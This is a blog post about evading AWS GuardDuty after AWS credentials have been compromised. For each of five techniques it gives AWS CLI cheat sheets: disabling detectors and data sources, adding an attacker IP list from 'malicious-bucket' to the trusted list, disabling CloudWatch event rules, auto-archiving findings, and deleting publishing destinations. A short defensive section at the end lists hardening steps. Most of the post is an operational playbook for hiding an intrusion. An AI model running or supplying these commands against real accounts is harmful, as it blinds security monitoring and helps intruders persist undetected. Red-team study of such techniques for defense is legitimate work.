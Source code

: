 ```yaml
---
layout: post
title: AWS Guard-OffDuty
---
```


Let's assume that we have found and  successfully validated some AWS credentials during an engagement. Then it might be a good idea to modify the threat detection services like GuardDuty to reduce the likelihood of triggering an alert. Therefore we need to modify the GuardDuty configuration to stay cloaked. Deleting or modifying key attributes of GuardDuty might have a less likely chance to raise alerts. The actions we can do depend on the compromised permissions available. The GuardDuty architecture and the presence of higher level controls like [Service Control Policies](https://docs.aws.amazon.com/organizations/latest/userguide/orgs_manage_policies_scps.html) can give us options. 

<p align="center">
<img width=300 src="/images/mr-bean-guard.gif">
</p>


GuardDuty itself uses a delegated admin or invite model which are hard to bypass. But features like detector configurations and IP-Trust-Lists are usually centrally managed. This pivot point can be used as a bypass, but usually they can only be modified in the GuardDuty administrator account itself. If this pattern isn't used, these features can be modified in the account that GuardDuty is running in and help us to trick the Guards. 

Let's check our options:

## Option1 - Patching the Detector
We can modify an existing GuardDuty detector in the account with the goal to remove log sources or lessen its effectiveness.

Configuration changes may include a combination of:

- Disabling the detector  
- Removing Kubernetes and S3 as Data Sources. This removes all available [S3 Protection](https://docs.aws.amazon.com/guardduty/latest/ug/guardduty_finding-types-s3.html) and/or [Kubernetes alerts](https://docs.aws.amazon.com/guardduty/latest/ug/guardduty_finding-types-kubernetes.html)  
- Increasing the event update frequency to 6 hours instead of the casual 15 minutes. This give some more time to dig around in the account and stay cloaked. To manage this we have to check the Required permissions to execute:

* `guardduty:ListDetectors`
* `guardduty:UpdateDetector`

Tiny cheat sheet of the CLI commands:

```bash
# Disabling the detector
aws guardduty update-detector \
    --detector-id 12abc34d567e8fa901bc2d34eexample \
    --no-enable 

# Removing s3 as a log source
aws guardduty update-detector \
    --detector-id 12abc34d567e8fa901bc2d34eexample \
    --data-sources S3Logs={Enable=false}

# Increase finding update time to 6 hours
aws guardduty update-detector \
    --detector-id 12abc34d567e8fa901bc2d34eexample \
    --finding-publishing-frequency SIX_HOURS
```

---
## Option2 - Patching Trusted IP Lists
We could create or update GuardDuty's [Trusted IP list](https://docs.aws.amazon.com/guardduty/latest/ug/guardduty_upload-lists.html) - including their own IP on the list. Any IPs in a trusted IP list will not have any Cloudtrail or VPC flow log alerts raised against them.

*DNS findings are exempt from the Trusted IP list.*

**Required permissions to execute:**

* `guardduty:ListDetectors`
* `guardduty:ListIPSet`
* `iam:PutRolePolicy`
* `guardduty:CreateIPSet (can be used to create a new list)`
* `guardduty:UpdateIPSet (update an existing list)`

Depending on the level of stealth required the file can be uploaded to an S3 bucket:
- Either in the target account
- or an account controlled by the attacker

Tiny cheat sheet of the CLI commands:

```bash
aws guardduty update-ip-set \
    --detector-id 12abc34d567e8fa901bc2d34eexample \
    --ip-set-id 24adjigdk34290840348exampleiplist \
    --location https://malicious-bucket.s3-us-east-1.amazonaws.com/customiplist.csv \
    --activate
```

## Option 3 - Modify Cloudwatch events rule
GuardDuty populates its findings to Cloudwatch-Events every 5 minutes. Modifying the Event pattern or Targets for an event may reduce GuardDuty's ability to alert and trigger auto-remediation of a findings. Especially where the remediation is triggered in a member account as GuardDuty administrator protections do not extend to the Cloudwatch events in one of the member accounts.

But be aware that:

> In a delegated or invitational admin GuardDuty architecture, cloudwatch events will still be created in the admin account.

**Required permissions to execute:**

* `gevent:ListRules`
* `gevent:ListTargetsByRule`
* `gevent:PutRule`
* `gevent:RemoveTargets`

Tiny cheat sheet of the CLI commands:
```bash
# Disable GuardDuty Cloudwatch Event
aws events put-rule --name guardduty-event \
    --event-pattern "{\"source\":[\"aws.guardduty\"]}" \
    --state DISABLED

# Modify Event Pattern
aws events put-rule --name guardduty-event \
    --event-pattern '{"source": ["aws.somethingthatdoesntexist"]}'

# Remove Event Targets
aws events remove-targets \ 
    --name guardduty-event \
    --ids "GuardDutyTarget"
```

---
## Option 4 - Create Supression Rules
Newly create GuardDuty findings can be automatically archived via [Suppression Rules](https://docs.aws.amazon.com/guardduty/latest/ug/findings_suppression-rule.html). We can also use [filters](https://docs.aws.amazon.com/guardduty/latest/ug/guardduty_filter-findings.html) to automatically archive findings before they are fresh generated. 

**Required permissions to execute:**
* `guardduty:CreateFilter`

Tiny cheat sheet of the CLI commands:

```bash
aws  guardduty create-filter --action ARCHIVE \
--detector-id 123456 \
--name fancyfiltername \
--finding-criteria file://criteria.json
```

Filters can be created using the [CreateFilter API](https://docs.aws.amazon.com/guardduty/latest/APIReference/API_CreateFilter.html).

---
## Option 5 - Delete Publishing Destination
We could disable alerting simply by [deleting the destination](https://docs.aws.amazon.com/cli/latest/reference/guardduty/delete-publishing-destination.html) of alerts.

**Required permissions to execute:**

* `guardduty:DeletePublishingDestination`

Tiny cheat sheet of the CLI commands:

```bash
aws guardduty delete-publishing-destination \
    --detector-id abc123 \
    --destination-id def456
```

## How to keep the Guards On-Duty
Now we learned how bad things can turn out or the work as a defender can be slowed out. Too keep up with the cool kids we have multiple things to fortify our AWS accounts:

1. The best way - Keep all the GuardDuty configurations, Policies and other things safe in a dedicated GuardDuty account to manage the rest. Make sure that you respect the principle of least privilege. 
2. AWS Config can be used for making sure that your configuration is auto remediated to a sane configuration. In case that an auto remidation occured - you have to enter a SIRT (Security Incident Response Team) Mode as soon as possible and investigate your fortress
3. Keep an eye on changes of crucial events in CloudWatch or use a WatchDog based on AWS Lambda to get notified if something strange happens. 
4. Train and use a simulation tool to check regularly if GuardDuty, Monitoring and SIEM are still alive. The [awslabs/amazon-guardduty-tester](https://github.com/awslabs/amazon-guardduty-tester) might be polished a little for this purpose. 
5. Dont rely on GuardDuty as your only line of defense - defense in depth is king and create as much hurdles as possible and be aware that even the strongest fortess will fall, it's just a matter of effort an attacker is ready to invest. Let's make it as hard as possible :)



<p align="center">
<img width=300 src="/images/MivN.gif">
</p>

